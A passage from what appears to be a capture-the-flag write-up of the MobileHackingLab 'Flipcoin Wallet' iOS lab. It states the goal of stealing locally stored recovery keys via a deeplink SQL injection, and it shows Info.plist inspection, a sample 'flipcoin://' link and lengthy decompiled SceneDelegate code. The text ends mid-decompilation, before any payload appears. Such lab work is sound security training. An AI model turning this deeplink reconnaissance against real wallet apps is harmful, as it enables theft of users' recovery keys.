# MobileHackingLab - Flipcoin Wallet

This is an iOS mobile challenge from [MobileHackingLabs](https://www.mobilehackinglab.com/course/lab-flipcoin-wallet).

The challenge is centered around a fictitious crypto currency flipcoin and its wallet Flipcoin Wallet. The Flipcoin wallet is an offline wallet giving users full ownership of their digital assets. The challenge highlights the potential entry points that can lead to further serious vulnerabilities including SQL injection.

**Objective**: Your objective is to find your way to the locally stored SQL database and craft an exploit that can access the locally stored recovery keys and send the data to you as attacker via one link.

The app presents a crypto balance and some send/receive functionalities as show below:



## Static Analysis

The `Info.plist` content has been inspected as follows:

```shell
plutil -p Payload/Flipcoin\ Wallet.app/Info.plist | less 
```

This revealed that the application handles deeplinks with protocol `flipcoin://`. The logic of the deeplink is implemented in the class `Flipcoin_Wallet.SceneDelegate`:




The application's "Receive" functionality presents the following QR code to be used in order to receive flipcoins:


The QR code's content corresponds to the following deeplink: `flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0`

This indicates that the previously identified deeplink can be used to send/receive flipcoins. Let's analyze the `SceneDelegate` decompiled code:


```c
void __thiscall
Flipcoin_Wallet::SceneDelegate::scene(SceneDelegate *this,UIScene *param_1,Set<> openURLContexts)

{
  uint uVar1;
  long lVar2;
  String SVar3;
  String SVar4;
  long *plVar5;
  SceneDelegate *pSVar6;
  StaticString SVar7;
  code *pcVar8;
  bool string_operators_bool_result;
  UIScene *pUVar9;
  undefined *puVar10;
  Iterator iterator_next;
  URL UVar11;
  char *pcVar12;
  char *pcVar13;
  URL get_host_1;
  UINavigationController *pUVar14;
  UIStoryboard *pUVar15;
  DatabaseHelper *pDVar16;
  Wallet *pWVar17;
  __int64 _Var18;
  long lVar19;
  Encoding EVar20;
  Encoding EVar21;
  undefined **ppuVar22;
  void *pvVar23;
  char *pcVar24;
  UINavigationController *pUVar25;
  UIWindow *pUVar26;
  Set SVar27;
  undefined8 uVar28;
  ulong uVar29;
  void *pvVar30;
  DefaultStringInterpolation DVar31;
  undefined *in_x3;
  void *in_x5;
  long extraout_x8;
  long extraout_x8_00;
  long extraout_x8_01;
  long extraout_x8_02;
  long extraout_x8_03;
  long extraout_x8_04;
  long extraout_x8_05;
  long extraout_x8_06;
  tuple2.conflict tVar32;
  String SVar33;
  String SVar34;
  String prefix_str_init;
  String testnet_str_init;
  String separator;
  String separator_00;
  String separator_01;
  String separator_02;
  String SVar35;
  String SVar36;
  String SVar37;
  undefined1 auStack_9d0 [8];
  undefined8 uStack_9c8;
  undefined4 auStack_9c0 [4];
  long local_9b0;
  long local_9a8;
  long local_9a0;
  UIWindow **local_998;
  UIWindow *local_990;
  UIWindow **local_988;
  UINavigationController *local_980;
  UIWindow *local_978;
  long local_970;
  long local_968;
  long local_960;
  char *local_958;
  char *local_950;
  void *local_948;
  code **local_940;
  void *local_938;
  void **local_930;
  void *local_928;
  char *local_920;
  uint local_914;
  void *local_910;
  undefined **local_908;
  undefined8 local_900;
  DefaultStringInterpolation local_8f8;
  char *local_8f0;
  long local_8e8;
  UIStoryboard *local_8e0;
  char *local_8d8;
  void *local_8d0;
  void *local_8c8;
  long local_8c0;
  undefined **local_8b8;
  undefined **local_8b0;
  long local_8a8;
  code *local_8a0;
  undefined *local_898;
  ulong local_890;
  undefined *local_888;
  undefined *local_880;
  undefined *local_878;
  undefined **local_870;
  ulong local_868;
  undefined4 local_85c;
  void *local_858;
  NSString *local_850;
  UIStoryboard *local_848;
  undefined8 local_840;
  UIStoryboard *local_838;
  long *local_830;
  UIStoryboard *local_828;
  undefined *local_820;
  long local_818;
  undefined *local_810;
  UIStoryboard *local_808;
  UIStoryboard *local_800;
  SendController *local_7f8;
  undefined8 local_7f0;
  undefined4 local_7e4;
  UIStoryboard *local_7e0;
  long *local_7d8;
  char *local_7d0;
  undefined *local_7c8;
  char **local_7c0;
  long *local_7b8;
  char **local_7b0;
  void *local_7a8;
  undefined **local_7a0;
  undefined8 local_798;
  DefaultStringInterpolation local_790;
  void *local_788;
  char *local_780;
  long local_778;
  char *local_770;
  void *local_768;
  DatabaseHelper *local_760;
  void *local_758;
  DatabaseHelper *local_750;
  DatabaseHelper *local_748;
  uint local_73c;
  char *local_738;
  void *local_730;
  UIStoryboard *local_728;
  undefined4 local_71c;
  void *local_718;
  NSString *local_710;
  UIStoryboard *local_708;
  undefined8 local_700;
  UIStoryboard *local_6f8;
  UINavigationController *local_6f0;
  char *local_6e8;
  void *local_6e0;
  void *local_6d8;
  undefined *local_6d0;
  char *local_6c8;
  void *local_6c0;
  undefined **local_6b8;
  undefined4 local_6ac;
  char *local_6a8;
  void *local_6a0;
  void *local_698;
  undefined *local_690;
  char *local_688;
  void *local_680;
  uint local_674;
  uint local_670;
  uint local_66c;
  __int64 local_668;
  undefined *local_660;
  __int64 local_658;
  __int64 local_650;
  uint local_644;
  char *local_640;
  undefined *local_638;
  undefined *local_630;
  char *local_628;
  undefined *local_620;
  uint local_618;
  uint local_614;
  char *get_host_result_2_2;
  void *local_608;
  undefined *local_600;
  uint local_5f4;
  uint local_5f0;
  uint local_5ec;
  char *get_host_result_2;
  undefined *local_5e0;
  undefined *local_5d8;
  char *get_host_result_1;
  undefined *local_5c8;
  long local_5c0;
  UIWindow **local_5b8;
  UIWindow *local_5b0;
  UIWindow **local_5a8;
  UIWindow *local_5a0;
  undefined4 local_594;
  void *local_590;
  UIStoryboard *local_588;
  NSString *local_580;
  UIStoryboard *local_578;
  undefined8 local_570;
  UIStoryboard *local_568;
  undefined8 local_560;
  UINavigationController *local_558;
  uint buy_equal_result_3;
  char *local_548;
  void *local_540;
  char **local_538;
  char **local_530;
  uint buy_equal_result_1;
  uint buy_equal_result_2;
  void *local_520;
  code *local_518;
  char *local_510;
  char *local_508;
  char *local_500;
  char *local_4f8;
  char *local_4f0;
  char *local_4e8;
  undefined **local_4e0;
  undefined *url_context?;
  undefined *local_4d0;
  code *local_4c8;
  code *local_4c0;
  undefined *local_4b8;
  long local_4b0;
  String swift_string_init;
  undefined *local_498;
  long local_490;
  undefined *local_488;
  UIScene *local_480;
  UIOpenURLContext *local_478;
  undefined1 *local_470;
  long local_468;
  UIScene *local_460;
  UIScene *local_458;
  UIScene *local_450;
  UIScene *local_448;
  SceneDelegate *local_440;
  undefined8 *local_438;
  undefined *local_430;
  ulong *local_428;
  Encoding local_420;
  undefined *local_418;
  undefined *local_410;
  StaticString local_408;
  char *local_400;
  char *local_3f8;
  char *local_3f0;
  long local_3e8;
  undefined *local_3e0;
  long local_3d8;
  ulong local_3d0;
  Encoding local_3c8;
  undefined *local_3c0;
  long local_3b8;
  ulong local_3b0;
  long local_3a8;
  undefined8 local_3a0;
  ulong local_398;
  long local_390;
  Set iterator;
  char *local_380;
  long local_378;
  long local_370;
  ulong local_368;
  long local_360;
  ulong local_358;
  undefined *local_350;
  ulong local_348;
  undefined *local_340;
  ulong local_338;
  undefined *local_330;
  ulong local_328;
  undefined *local_320;
  ulong local_318;
  undefined *local_310;
  ulong local_308;
  undefined *local_300;
  ulong local_2f8;
  long local_2f0;
  ulong local_2e8;
  undefined8 *local_2e0;
  long local_2d8;
  UIScene *local_2d0;
  UIScene *local_2c8;
  char *local_2c0;
  void *local_2b8;
  UIWindow *local_2b0;
  UIWindow *local_2a8;
  UINavigationController *local_2a0;
  UIStoryboard *local_298;
  UIStoryboard *local_290;
  byte local_281;
  long local_280 [2];
  __int64 local_270;
  undefined1 local_268;
  long local_260;
  byte local_258;
  long local_250;
  char *local_248;
  char *local_240;
  void *local_238;
  char *local_230;
  void *local_228;
  void *local_220;
  void *local_218;
  undefined *local_210;
  undefined8 local_208;
  char *local_200;
  void *local_1f8;
  code *local_1f0;
  undefined *local_1e8;
  ulong local_1e0;
  undefined *local_1d8;
  long local_1d0;
  long *local_1c8;
  char *local_1c0;
  long *local_1b8;
  char *local_1b0;
  char *local_1a8;
  char *local_1a0;
  void *local_198;
  undefined *local_190;
  undefined8 local_188;
  UIWindow *local_180;
  UIWindow *local_178;
  undefined1 auStack_170 [8];
  long local_168;
  char *local_160;
  void *local_158;
  UINavigationController *local_150;
  UIStoryboard *local_148;
  UIStoryboard *local_140;
  char *local_138;
  void *local_130;
  char *local_128;
  void *local_120;
  String defaul_testnet_value;
  char *local_108;
  void *local_100;
  undefined1 local_f2;
  byte local_f1;
  char *buy_str_obj_1;
  void *local_e8;
  char *local_e0;
  void *local_d8;
  undefined *buy_str_1;
  long local_c8;
  undefined *local_c0;
  undefined *local_b8;
  undefined1 auStack_b0 [40];
  UIScene *local_88;
  SceneDelegate *local_80;
  undefined *local_78;
  UIScene *local_70;
  long local_68;
  long local_60;
  undefined1 auStack_58 [40];
  
  local_2e0 = &___profc_$s15Flipcoin_Wallet14SendControllerC11viewDidLoadyyF;
  local_438 = &
              ___profc_$s15Flipcoin_Wallet13SceneDelegateC5scene_15openURLContextsySo7UISceneC_ShySo 16UIOpenURLContextCGtF
  ;
  local_430 = PTR_$$type_metadata_for_Any_100028730 + 8;
  local_428 = (ulong *)PTR__swift_isaMask_1000286a0;
  local_420.unknown = PTR_$$type_metadata_for_Swift.String_100028498;
  local_418 = 
  PTR_$$protocol_witness_table_for_Swift.String_:_Swift.CustomStringConvertible_in_Swift_100028688;
  local_410 = 
  PTR_$$protocol_witness_table_for_Swift.String_:_Swift.TextOutputStreamable_in_Swift_100028758;
  local_408.unknown = "Fatal error";
  local_400 = "Unexpectedly found nil while unwrapping an Optional value";
  local_3f8 = "Flipcoin_Wallet/SceneDelegate.swift";
  local_3f0 = "Unexpectedly found nil while implicitly unwrapping an Optional value";
  local_60 = 0;
  local_68 = 0;
  local_70 = (UIScene *)0x0;
  local_78 = (undefined *)0x0;
  local_80 = (SceneDelegate *)0x0;
  local_88 = (UIScene *)0x0;
  local_440 = this;
  iterator.unknown = openURLContexts.unknown;
  local_2d0 = param_1;
  _memset(auStack_b0,0,0x28);
  local_c0 = (undefined *)0x0;
  local_108 = (char *)0x0;
  local_100 = (void *)0x0;
  local_138 = (char *)0x0;
  local_130 = (void *)0x0;
  local_140 = (UIStoryboard *)0x0;
  local_148 = (UIStoryboard *)0x0;
  local_150 = (UINavigationController *)0x0;
  local_1a8 = (char *)0x0;
  local_1c8 = (long *)0x0;
  local_3e8 = 0;
  local_200 = (char *)0x0;
  local_1f8 = (void *)0x0;
  local_240 = (char *)0x0;
  local_238 = (void *)0x0;
  local_250 = 0;
  local_248 = (char *)0x0;
  local_290 = (UIStoryboard *)0x0;
  local_298 = (UIStoryboard *)0x0;
  local_2a0 = (UINavigationController *)0x0;
  local_3a0 = 0;
  local_3e0 = (undefined *)Encoding::$typeMetadataAccessor();
  local_3d8 = *(long *)(local_3e0 + -8);
  local_3d0 = *(long *)(local_3d8 + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_1000281d0)(local_3a0);
  puVar10 = (undefined *)((long)&local_9b0 - local_3d0);
  local_3c8.unknown = puVar10;
  local_3c0 = (undefined *)CryptoKit::SHA256Digest::typeMetadataAccessor();
  local_3b8 = *(long *)(local_3c0 + -8);
  local_3b0 = *(long *)(local_3b8 + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  lVar2 = (long)puVar10 - local_3b0;
  puVar10 = &$$demangling_cache_variable_for_type_metadata_for_Foundation.URL?;
  local_3a8 = lVar2;
  local_60 = lVar2;
  ___swift_instantiateConcreteTypeFromMangledName();
  local_398 = *(long *)(*(long *)(puVar10 + -8) + 0x40) + 0xfU & 0xfffffffffffffff0;
  (*(code *)PTR____chkstk_darwin_1000281d0)(local_3a0);
  lVar2 = lVar2 - local_398;
  local_390 = lVar2;
  local_380 = (char *)Foundation::URL::typeMetadataAccessor();
  local_378 = *(long *)(local_380 + -8);
  local_370 = *(long *)(local_378 + 0x40);
  local_368 = local_370 + 0xfU & 0xfffffffffffffff0;
  pUVar9 = local_2d0;
  SVar27.unknown = iterator.unknown;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  lVar2 = lVar2 - local_368;
  local_358 = extraout_x8 + 0xfU & 0xfffffffffffffff0;
  local_360 = lVar2;
  local_68 = lVar2;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  puVar10 = (undefined *)(lVar2 - local_358);
  local_348 = extraout_x8_00 + 0xfU & 0xfffffffffffffff0;
  local_350 = puVar10;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  puVar10 = puVar10 + -local_348;
  local_338 = extraout_x8_01 + 0xfU & 0xfffffffffffffff0;
  local_340 = puVar10;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  puVar10 = puVar10 + -local_338;
  local_328 = extraout_x8_02 + 0xfU & 0xfffffffffffffff0;
  local_330 = puVar10;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  puVar10 = puVar10 + -local_328;
  local_318 = extraout_x8_03 + 0xfU & 0xfffffffffffffff0;
  local_320 = puVar10;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  puVar10 = puVar10 + -local_318;
  local_308 = extraout_x8_04 + 0xfU & 0xfffffffffffffff0;
  local_310 = puVar10;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  lVar2 = -local_308;
  local_2f8 = extraout_x8_05 + 0xfU & 0xfffffffffffffff0;
  local_300 = puVar10 + lVar2;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  lVar2 = (long)(puVar10 + lVar2) - local_2f8;
  local_2e8 = extraout_x8_06 + 0xfU & 0xfffffffffffffff0;
  local_2f0 = lVar2;
  (*(code *)PTR____chkstk_darwin_1000281d0)();
  lVar2 = lVar2 - local_2e8;
  local_2e0[0x31] = local_2e0[0x31] + 1;
  local_2d8 = lVar2;
  local_80 = this;
  local_78 = SVar27.unknown;
  local_70 = pUVar9;
  _objc_retain();
  puVar10 = &_OBJC_CLASS_$_UIWindowScene;
  _objc_opt_self(&_OBJC_CLASS_$_UIWindowScene);
  pUVar9 = local_2d0;
  _swift_dynamicCastObjCClass(local_2d0,puVar10);
  local_448 = pUVar9;
  local_2c8 = pUVar9;
  if (pUVar9 == (UIScene *)0x0) {
    local_450 = (UIScene *)0x0;
    _objc_release(local_2d0);
    local_448 = local_450;
  }
  local_458 = local_448;
  if (local_448 == (UIScene *)0x0) {
    local_438[1] = local_438[1] + 1;
  }
  else {
    local_460 = local_448;
    local_480 = local_448;
    local_88 = local_448;
    _swift_bridgeObjectRetain(iterator.unknown);
    local_478 = __C::UIOpenURLContext::typeMetadataAccessor();
    __C::UIOpenURLContext::$lazy_protocol_witness_table_accessor();
    local_470 = auStack_58;
    Swift::Set::$makeIterator(iterator);
    _memcpy(auStack_b0,local_470,0x28);
    local_468 = local_3e8;
    while( true ) {
      local_490 = local_468;
      iterator_next.unknown =
           &
           $$demangling_cache_variable_for_type_metadata_for_Swift.Set<__C.UIOpenURLContext>.Iterato r
      ;
      ___swift_instantiateConcreteTypeFromMangledName();
      Swift::Set::Iterator::$next(iterator_next);
      get_host_1.unknown = local_300;
      local_488 = local_b8;
      if (local_b8 == (undefined *)0x0) break;
      local_498 = local_b8;
      url_context? = local_b8;
      local_438[2] = local_438[2] + 1;
      local_c0 = local_b8;
      tVar32 = Swift::$_allocateUninitializedArray(1);
      local_520 = tVar32.1;
      local_510 = tVar32._0_8_;
      local_4e0 = &PTR_s_v24@0:8@"UIScene"16_10002d000;
      UVar11.unknown = url_context?;
      _objc_msgSend(url_context?,"URL");
      _objc_retainAutoreleasedReturnValue();
      local_508 = UVar11.unknown;
      Foundation::URL::$_unconditionallyBridgeFromObjectiveC(UVar11);
      *(char **)((long)local_520 + 0x18) = local_380;
      ___swift_allocate_boxed_opaque_existential_0();
      local_518 = *(code **)(local_378 + 0x20);
      pcVar24 = local_380;
      (*local_518)();
      pcVar12 = local_510;
      Swift::$_finalizeUninitializedArray(local_510,local_430);
      pcVar13 = local_508;
      local_4e8 = pcVar12;
      _objc_release();
      prefix_str_init.bridgeObject = pcVar12;
      prefix_str_init.str = pcVar13;
      separator_00.bridgeObject = in_x3;
      separator_00.str = pcVar24;
                    /* From there starts initializing some "separator" strings and prints them */
      Swift::$print(prefix_str_init,separator_00);
      SVar33.bridgeObject = pcVar12;
      SVar33.str = pcVar13;
      separator_01.bridgeObject = in_x3;
      separator_01.str = pcVar24;
      local_500 = pcVar13;
      local_4f0 = pcVar12;
      Swift::$print(SVar33,separator_01);
      SVar34.bridgeObject = local_500;
      SVar34.str = local_4e8;
      separator_02.bridgeObject = pcVar13;
      separator_02.str = local_4f0;
      local_4f8 = pcVar12;
      Swift::$print(SVar34,separator_02);
      _swift_bridgeObjectRelease(local_4f8);
      _swift_bridgeObjectRelease(local_4f0);
      _swift_bridgeObjectRelease(local_4e8);
      UVar11.unknown = url_context?;
      _objc_msgSend(url_context?,local_4e0[0x39]);
      _objc_retainAutoreleasedReturnValue();
      local_4d0 = UVar11.unknown;
      Foundation::URL::$_unconditionallyBridgeFromObjectiveC(UVar11);
      local_4c8 = *(code **)(local_378 + 0x10);
      lVar19 = local_2f0;
      (*local_4c8)(get_host_1.unknown,local_2f0,local_380);
      Foundation::URL::$get_host(get_host_1);
      local_4c0 = *(code **)(local_378 + 8);
      local_4b8 = get_host_1.unknown;
      local_4b0 = lVar19;
      (*local_4c0)(local_300,local_380);
      (*local_4c0)(local_2f0,local_380);
      _swift_bridgeObjectRetain(local_4b0);
      pcVar24 = (char *)0x0;
      swift_string_init = Swift::String::init("buy",3,1);
      _swift_bridgeObjectRetain();
      buy_str_1 = local_4b8;
      local_c8 = local_4b0;
      buy_str_obj_1 = swift_string_init.str;
      local_e8 = swift_string_init.bridgeObject;
      $$outlined_init_with_copy_of_Swift.String?(&buy_str_1,&local_e0);
      if (local_e8 == (void *)0x0) {
        if (local_d8 != (void *)0x0) goto LAB_100016580;
        $$outlined_destroy_of_Swift.String?(&buy_str_obj_1);
        SVar35.bridgeObject = pcVar13;
        SVar35.str = pcVar24;
        buy_equal_result_2 = 1;
      }
      else {
        $$outlined_init_with_copy_of_Swift.String?(&buy_str_obj_1,&local_2c0);
                    /* Empty check */
        if (local_d8 == (void *)0x0) {
          $$outlined_destroy_of_Swift.String(&local_2c0);
LAB_100016580:
          $$outlined_destroy_of_(Swift.String?,Swift.String?)(&buy_str_obj_1);
          SVar35.bridgeObject = pcVar13;
          SVar35.str = pcVar24;
          buy_equal_result_2 = 0;
        }
        else {
                    /* Empty check - when not empty */
          local_548 = local_e0;
          local_530 = &buy_str_obj_1;
          local_540 = local_d8;
          _swift_bridgeObjectRetain();
          SVar35.bridgeObject = local_540;
          SVar35.str = local_548;
          local_538 = &local_2c0;
          SVar4.bridgeObject = local_2b8;
          SVar4.str = local_2c0;
          SVar37.bridgeObject = in_x5;
          SVar37.str = pcVar12;
                    /* String == infix operator */
          string_operators_bool_result = Swift::String::==_infix(SVar4,SVar35,SVar37);
          buy_equal_result_1 =
               (uint)CONCAT71((int7)((ulong)&buy_str_obj_1 >> 8),string_operators_bool_result);
          _swift_bridgeObjectRelease(local_540);
          _swift_bridgeObjectRelease(local_540);
          $$outlined_destroy_of_Swift.String(local_538);
          $$outlined_destroy_of_Swift.String?(local_530);
          buy_equal_result_2 = buy_equal_result_1;
        }
      }
      buy_equal_result_3 = buy_equal_result_2;
      _swift_bridgeObjectRelease(swift_string_init.bridgeObject);
      get_host_1.unknown = local_320;
                    /* if not buy_equal_result_3 */
      if ((buy_equal_result_3 & 1) == 0) {
        _swift_bridgeObjectRelease(local_4b0);
        local_438[4] = local_438[4] + 1;
        UVar11.unknown = url_context?;
        _objc_msgSend(url_context?,"URL");
        _objc_retainAutoreleasedReturnValue();
        local_5d8 = UVar11.unknown;
        Foundation::URL::$_unconditionallyBridgeFromObjectiveC(UVar11);
        in_x3 = (undefined *)SVar35.bridgeObject;
        puVar10 = local_310;
        (*local_4c8)(get_host_1.unknown,local_310,local_380);
        Foundation::URL::$get_host(get_host_1);
        get_host_result_1 = get_host_1.unknown;
        local_5c8 = puVar10;
        (*local_4c0)(local_320,local_380);
        (*local_4c0)(local_310,local_380);
        if (local_5c8 == (undefined *)0x0) {
          _objc_release(local_5d8);
          local_5ec = 2;
        }
        else {
          get_host_result_2 = get_host_result_1;
          local_5e0 = local_5c8;
          local_600 = local_5c8;
          get_host_result_2_2 = get_host_result_1;
          local_5f4 = 1;
          prefix_str_init = Swift::String::init("0x",2,1);
          local_608 = prefix_str_init.bridgeObject;
          SVar36.bridgeObject = local_600;
          SVar36.str = get_host_result_2_2;
          in_x3 = local_600;
          string_operators_bool_result = Swift::String::hasPrefix(prefix_str_init,SVar36);
          local_5f0 = (uint)CONCAT71((int7)((ulong)get_host_1.unknown >> 8),
                                     string_operators_bool_result);
          _swift_bridgeObjectRelease(local_608);
          _swift_bridgeObjectRelease(local_600);
          _objc_release(local_5d8);
          local_5ec = local_5f0 & local_5f4;
        }
        local_f2 = (undefined1)local_5ec;
        local_f1 = 1;
        if (((local_5ec & 0xff) == 2) ||
           ($$outlined_init_with_copy_of_Swift.Bool?(&local_f2,&local_281), local_f1 == 2)) {
          local_614 = 0;
        }
        else {
          local_614 = (uint)((local_281 & 1) == (local_f1 & 1));
        }
        local_618 = local_614;
        _objc_retain(url_context?);
        get_host_1.unknown = local_340;
        if ((local_618 & 1) == 0) {
          local_670 = 0;
        }
        else {
          ___profc_/Users/BH32SJ/Downloads/flipcoin-wallet-main/challenge/Flipcoin_Wallet/SceneDeleg ate.swift:$s15Flipcoin_Wallet13SceneDelegateC5scene_15openURLContextsySo7UISceneC_ShySo16U IOpenURLContextCGtFSbyKXEfu_
               = ___profc_/Users/BH32SJ/Downloads/flipcoin-wallet-main/challenge/Flipcoin_Wallet/Sce neDelegate.swift:$s15Flipcoin_Wallet13SceneDelegateC5scene_15openURLContextsySo7UISce neC_ShySo16UIOpenURLContextCGtFSbyKXEfu_
                 + 1;
          UVar11.unknown = url_context?;
          _objc_msgSend(url_context?,"URL");
          _objc_retainAutoreleasedReturnValue();
          local_630 = UVar11.unknown;
          Foundation::URL::$_unconditionallyBridgeFromObjectiveC(UVar11);
          puVar10 = local_330;
          (*local_4c8)(get_host_1.unknown,local_330,local_380);
          Foundation::URL::$get_host(get_host_1);
          local_628 = get_host_1.unknown;
          local_620 = puVar10;
          (*local_4c0)(local_340,local_380);
          (*local_4c0)(local_330,local_380);
          string_operators_bool_result = local_620 == (undefined *)0x0;
          if (string_operators_bool_result) {
            local_668 = 0;
            _objc_release(local_630);
            local_650 = local_668;
          }
          else {
            local_640 = local_628;
            local_638 = local_620;
            SVar3.bridgeObject = local_620;
            SVar3.str = local_628;
            local_660 = local_620;
            local_658 = Swift::String::get_count(SVar3);
            _swift_bridgeObjectRelease(local_660);
            _objc_release(local_630);
            local_650 = local_658;
          }
          local_644 = (uint)string_operators_bool_result;
          local_270 = local_650;
          local_260 = 0x2a;
          local_258 = 0;
          local_268 = string_operators_bool_result;
          if ((string_operators_bool_result) ||
             ($$outlined_init_with_copy_of_Swift.Int?(&local_270,local_280), (local_258 & 1) != 0))
          {
            local_66c = 0;
          }
          else {
            local_66c = (uint)(local_280[0] == local_260);
          }
          local_670 = local_66c;
        }
        local_674 = local_670;
        _objc_release(url_context?);
        get_host_1.unknown = local_350;
        if ((local_674 & 1) == 0) {
          local_9a0 = local_490;
        }
        else {
          local_438[5] = local_438[5] + 1;
          local_6b8 = &PTR_s_v24@0:8@"UIScene"16_10002d000;
          UVar11.unknown = url_context?;
          _objc_msgSend(url_context?,"URL");
          _objc_retainAutoreleasedReturnValue();
          local_6d0 = UVar11.unknown;
          Foundation::URL::$_unconditionallyBridgeFromObjectiveC(UVar11);
          (*local_4c8)(get_host_1.unknown,local_2d8,local_380);
          prefix_str_init = Foundation::URL::get_absoluteString(get_host_1);
          pSVar6 = local_440;
          local_6d8 = prefix_str_init.bridgeObject;
          local_6e8 = prefix_str_init.str;
          (*local_4c0)(local_350,local_380);
          (*local_4c0)(local_2d8,local_380);
          local_6ac = 1;
          prefix_str_init = Swift::String::init("amount",6,1);
          local_6e0 = prefix_str_init.bridgeObject;
          pcVar24 = local_6e8;
          pvVar23 = local_6d8;
          (**(code **)((*(ulong *)pSVar6 & *local_428) + 0x98))
                    (local_6e8,local_6d8,prefix_str_init.str);
          get_host_1.unknown = local_350;
          local_6c8 = pcVar24;
          local_6c0 = pvVar23;
          _swift_bridgeObjectRelease(local_6e0);
          _swift_bridgeObjectRelease(local_6d8);
          _objc_release(local_6d0);
          local_108 = local_6c8;
          local_100 = local_6c0;
          UVar11.unknown = url_context?;
          _objc_msgSend(url_context?,local_6b8[0x39]);
          _objc_retainAutoreleasedReturnValue();
          local_690 = UVar11.unknown;
          Foundation::URL::$_unconditionallyBridgeFromObjectiveC(UVar11);
          (*local_4c8)(get_host_1.unknown,local_2d8,local_380);
          prefix_str_init = Foundation::URL::get_absoluteString(get_host_1);
          pSVar6 = local_440;
          local_698 = prefix_str_init.bridgeObject;
          local_6a8 = prefix_str_init.str;
          (*local_4c0)(local_350,local_380);
          (*local_4c0)(local_2d8,local_380);
          testnet_str_init = Swift::String::init("testnet",7,(byte)local_6ac & 1);
          local_6a0 = testnet_str_init.bridgeObject;
          pcVar24 = local_6a8;
          pvVar23 = local_698;
          (**(code **)((*(ulong *)pSVar6 & *local_428) + 0x98))
                    (local_6a8,local_698,testnet_str_init.str);
          local_688 = pcVar24;
          local_680 = pvVar23;
          _swift_bridgeObjectRelease(local_6a0);
          _swift_bridgeObjectRelease(local_698);
          _objc_release(local_690);
          _swift_bridgeObjectRetain(local_680);
          pvVar23 = testnet_str_init.bridgeObject;
          local_128 = local_688;
          local_120 = local_680;
          if (local_680 == (void *)0x0) {
            ___profc_/Users/BH32SJ/Downloads/flipcoin-wallet-main/challenge/Flipcoin_Wallet/SceneDel egate.swift:$s15Flipcoin_Wallet13SceneDelegateC5scene_15openURLContextsySo7UISceneC_ShyS o16UIOpenURLContextCGtFSSyKXEfu0_
                 = ___profc_/Users/BH32SJ/Downloads/flipcoin-wallet-main/challenge/Flipcoin_Wallet/S ceneDelegate.swift:$s15Flipcoin_Wallet13SceneDelegateC5scene_15openURLContextsySo7U ISceneC_ShySo16UIOpenURLContextCGtFSSyKXEfu0_
                   + 1;
            pcVar24 = (char *)0x0;
            defaul_testnet_value = Swift::String::init("https://mhl.pages.dev:8545",0x1a,1);
            testnet_str_init.bridgeObject = pvVar23;
            testnet_str_init.str = pcVar24;
          }
          else {
